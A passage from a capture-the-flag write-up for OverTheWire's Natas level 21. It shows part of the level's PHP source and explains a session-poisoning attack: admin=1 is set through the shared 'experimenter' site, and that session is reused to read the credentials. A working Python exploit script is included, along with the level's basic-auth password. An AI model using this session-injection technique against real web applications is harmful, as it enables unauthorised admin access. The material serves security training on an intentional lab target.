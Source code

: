 ```html
          value="Update"
        />'; $form .= '
      </form>
      '; $style = "background-color: ".$_SESSION["bgcolor"]."; text-align:
      ".$_SESSION["align"]."; font-size: ".$_SESSION["fontsize"].";"; $example =
      "
      <div style="$style">Hello world!</div>
      "; ?>

      <p>Example:</p>
      <?=$example?>

      <p>Change example values here:</p>
      <?=$form?>

      <div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
    </div>
  </body>
</html>
```

The idea is quite simple: we see from the second page that we can set session variables. We are interested to set `admin = 1` and reuse it in the first page.

Thus we craft two requests, both with the same session ID; the first, directed to the second URL, sets `admin = 1` in the session; the second retrieves the credentials.

```python
import base64
import requests
from requests.auth import HTTPBasicAuth

basic_auth = HTTPBasicAuth('natas21', 'BPhv63cKE1lkQl04cE5CuFTzXe15NfiH')

url1 = "http://natas21.natas.labs.overthewire.org/index.php"
url2 = "http://natas21-experimenter.natas.labs.overthewire.org/index.php?debug=1"


def send_request(url) -> str:
    cookie = "PHPSESSID=" + "admin"

    headers = {'Content-Type': 'text/html; charset=UTF-8',
               'Cookie': cookie}
    response = requests.get(url, headers=headers,
                            auth=basic_auth,
                            verify=False)
    return response.text


if __name__ == '__main__':
    text = send_request(url2 + "&submit=1&admin=1")
    print(text)
    text = send_request(url1)
    print(text)
```
